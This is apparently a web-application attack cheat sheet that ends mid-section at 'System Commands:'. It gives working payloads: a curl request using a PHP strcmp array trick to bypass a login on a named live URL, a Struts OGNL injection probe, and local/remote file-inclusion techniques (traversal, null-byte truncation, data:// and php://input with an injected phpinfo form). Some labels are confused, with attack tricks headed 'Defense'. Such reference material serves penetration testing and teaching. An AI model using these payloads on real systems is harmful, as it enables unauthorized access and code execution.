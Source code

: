 If the authentication code looks like this:

{% highlight php %}
<?php
if (strcmp($_POST['password'], 'sekret') == 0) {
    echo "Welcome, authorized user!\n";
} else {
    echo "Go away, imposter.\n";
}
?>
{% endhighlight %}

Then you could do something like this:

{% highlight php %}
curl -d password[]=wrong http://andersk.scripts.mit.edu/strcmp.php
Welcome, authorized user!
{% endhighlight %}


> **Java Struts OGNL Injection**

Look for 3 in the result:

{% highlight bash %}
{% raw %}
http://localhost:8080/example/HelloWorld.action?message=${%{1+2}}
{% endraw %}
{% endhighlight %}

> **File Inclusion**

**Discovery**

* Find Limitations: Is there code execution or are you seeing the source code? Are you able to read files outside of webroot? 
* Determine if RFI is possible using Loopback (e.g., http://blog.site.org/blog.php?page=http://127.0.0.1/blog.php).  
* If RFI is possible using loopback only try SMB/CIFS/nonstandard port or for PHP data:// or php:// (see below).

**Common Examples in Different Languages**

{% highlight php %}
//PHP
//Dynamic code execution
require() 
include()
<?PHP include ( $_GET["page"] ); ?>
//blog.php?page=blog1

//Defenses: Prepending
<?php include ( 'posts/' . $_GET["page"] ); ?>
//a series of "../" can be prepeneded as a directory traversal

//Defenses: Appending
<?php included( $_GET["page"] . '.html'); ?>
//Old PHP %00 will ingore everything after the null
//New PHP a "?" is possibly similar to "%00"  and will ignore everything  after the question mark (query parameters)

//Defense: Using Data - Sends raw data using the URL 
(e.g., http://blog.site.org/blog.php?page=data://text/plain;base64,SSBsb3ZlIFBIUCE=)
                                                                                                   
//Defense: Using Input - traeats POST data as a file.  Create php_input_exploit.html, open it with firefox and submit the form
<form action="http://blog.site.org/fileview.php?loc=php://input" method="post" enctype="text/plain">
<input type="text" name="exploit" value="<?php phpinfo(); ?>" />
  
//System Commands: